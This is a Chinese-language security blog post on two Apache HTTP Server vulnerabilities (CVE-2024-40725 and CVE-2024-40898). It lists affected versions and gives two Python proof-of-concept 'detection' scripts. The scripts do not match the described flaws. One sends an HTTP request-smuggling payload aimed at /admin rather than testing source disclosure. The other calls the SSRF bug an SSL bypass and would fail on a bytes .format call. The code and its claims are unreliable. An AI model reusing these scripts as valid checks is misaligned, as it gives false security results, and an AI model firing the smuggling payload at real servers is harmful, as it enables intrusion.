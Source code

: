 #  CVE-2024-40725｜Apache HTTP Server 源代码泄露漏洞（POC）   
alicy  信安百科   2024-08-03 22:04  
  
**0x00 前言**  
  
  
Apache HTTP Server（简称Apache），是Apache软件基金会的一个开放源代码的网页服务器，可以在大多数电脑操作系统中运行，由于其具有的跨平台性和安全性，被广泛使用，是最流行的Web服务器端软件之一。  
  
  
Apache HTTP Server的特点是简单、速度快、性能稳定、安全可靠，可通过简单的API进行扩展，并且集成了Perl、Python等语言解释器。  
  
  
  
**0x01 漏洞描述**  
  
  
ap_set_content_type_ex 函数用于设置请求的 content-type。  
  
受影响版本中在处理请求时未能正确应用子请求的信任标志，在某些间接请求文件的情况下，AddType及类似配置会导致本地脚本文件的内容泄露，攻击者可能利用该漏洞获取 php 等脚本语言源代码。  
  
  
  
**0x02 CVE编号**  
  
#####   
##### CVE-2024-40898：Apache HTTP Server on Windows SSRF漏洞  
#####   
  
  
若在服务器或虚拟主机环境中使用 mod_rewrite 模块，存在服务器端请求伪造（SSRF）漏洞。该漏洞可能允许攻击者通过 SSRF 和恶意请求泄露 NTLM 哈希值到恶意服务器。  
  
##### CVE-2024-40725：Apache HTTP Server 源代码泄露漏洞  
  
  
ap_set_content_type_ex 函数用于设置请求的 content-type。  
  
受影响版本中在处理请求时未能正确应用子请求的信任标志，在某些间接请求文件的情况下，AddType及类似配置会导致本地脚本文件的内容泄露，攻击者可能利用该漏洞获取 php 等脚本语言源代码。  
  
  
  
**0x03 影响版本**  
  
  
http_server@[2.4.60, 2.4.62)  
  
apache2@影响所有版本  
  
  
  
**0x04 漏洞详情**  
  
  
漏洞检查工具：  
  
https://github.com/TAM-K592/CVE-2024-40725-CVE-2024-40898  
  
  
CVE-2024-40725.py  
```
import requests
import argparse

def detect_http_request_smuggling(target_url):
    """
    檢測目標 Apache HTTP Server 是否存在 CVE-2024-40725 (HTTP Request Smuggling) 漏洞

    :param target_url: 目標伺服器的 URL
    """
    # 構造 HTTP Request Smuggling 攻擊請求
    smuggled_request = (
        "POST / HTTP/1.1\r\n"
        "Host: {}\r\n"
        "Content-Length: 0\r\n"
        "Transfer-Encoding: chunked\r\n"
        "\r\n"
        "0\r\n\r\n"
        "GET /admin HTTP/1.1\r\n"
        "Host: {}\r\n"
        "User-Agent: smuggle-test\r\n"
        "\r\n"
    ).format(target_url, target_url)

    try:
        # 發送請求到目標伺服器
        response = requests.post(target_url, data=smuggled_request, headers={'Content-Type': 'text/plain'}, timeout=10)

        # 判斷回應是否表示存在漏洞
        if response.status_code == 200 and "admin" in response.text:
            print(f"目標 {target_url} 可能存在 CVE-2024-40725 漏洞")
        else:
            print(f"目標 {target_url} 不存在 CVE-2024-40725 漏洞")
    except Exception as e:
        print(f"檢測過程中出錯: {e}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='檢測 CVE-2024-40725 漏洞')
    parser.add_argument('-u', '--url', required=True, help='目標伺服器的 URL')
    args = parser.parse_args()
    detect_http_request_smuggling(args.url)
```  
  
  
CVE-2024-40898 .py  
```
import ssl
import socket
import argparse

def detect_ssl_verification_bypass(target_host, target_port):
    """
    檢測目標 Apache HTTP Server 是否存在 CVE-2024-40898 (SSL 驗證繞過) 漏洞

    :param target_host: 目標伺服器的主機名或 IP 地址
    :param target_port: 目標伺服器的端口號
    """
    context = ssl.create_default_context(ssl.Purpose.CLIENT_AUTH)
    context.verify_mode = ssl.CERT_OPTIONAL

    try:
        # 連接目標伺服器
        with socket.create_connection((target_host, target_port)) as sock:
            with context.wrap_socket(sock, server_hostname=target_host) as ssock:
                ssock.sendall(b"HEAD / HTTP/1.1\r\nHost: {}\r\n\r\n".format(target_host.encode()))
                response = ssock.recv(4096)

                # 判斷回應是否表示存在漏洞
                if b"200 OK" in response:
                    print(f"目標 {target_host}:{target_port} 可能存在 CVE-2024-40898 漏洞")
                else:
                    print(f"目標 {target_host}:{target_port} 不存在 CVE-2024-40898 漏洞")
    except Exception as e:
        print(f"檢測過程中出錯: {e}")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='檢測 CVE-2024-40898 漏洞')
    parser.add_argument('-u', '--url', required=True, help='目標伺服器的 URL')
    args = parser.parse_args()

    # 分割主機名和端口號
    target_host, target_port = args.url.split(":")
    detect_ssl_verification_bypass(target_host, int(target_port))
```  
  
  
  
**0x05 参考链接**  
  
  
https://httpd.apache.org/download.cgi  
  
  
https://httpd.apache.org/security/vulnerabilities_24.html  
  
  
  
  
推荐阅读：  
  
  
[CVE-2024-28995｜SolarWinds Serv-U任意文件下载漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485428&idx=1&sn=e168a5c05c00d3b3468b6eb316a029ae&chksm=cea96e2df9dee73b2dab349126cf2d0acf586461e051ab888294ab61b7830d5db2dd852592a4&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-23692｜Rejetto HFS 2.x 远程代码执行漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485428&idx=2&sn=62f294d16dfe1e70e0c39139416e633e&chksm=cea96e2df9dee73b4e7633ebe421959fa3e8481e1a3c86b125fb1129a8f81dcb7e82d4c91c37&scene=21#wechat_redirect)  
  
  
  
[CVE-2024-4577｜PHP CGI Windows平台远程代码执行漏洞（POC）](http://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485411&idx=1&sn=e3c47dc7c7dd3cded51cefa46511183b&chksm=cea96e3af9dee72cfb2e7d3df819eb51ba078d21acc7fd473fb477c6efecb99acc6d108a7044&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
